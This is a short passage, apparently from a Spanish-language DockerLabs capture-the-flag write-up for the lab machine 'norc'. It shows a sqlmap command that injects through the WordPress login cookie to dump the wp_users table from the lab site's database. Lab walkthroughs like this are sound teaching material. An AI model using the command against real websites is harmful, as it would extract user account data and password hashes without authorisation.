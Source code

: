 ![](/assets/img/dockerlabs-writeup-norc/norc1_12.png)

Encontré la tabla 'wp_users'. Detuve SQLMap y ajusté el comando para enfocar el ataque en esta tabla.

```terminal
/home/kali/Documents/dockerlabs/norc:-$ sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 -D wordpress -T wp_users --dump --batch
```

![](/assets/img/dockerlabs-writeup-norc/norc1_14.png)
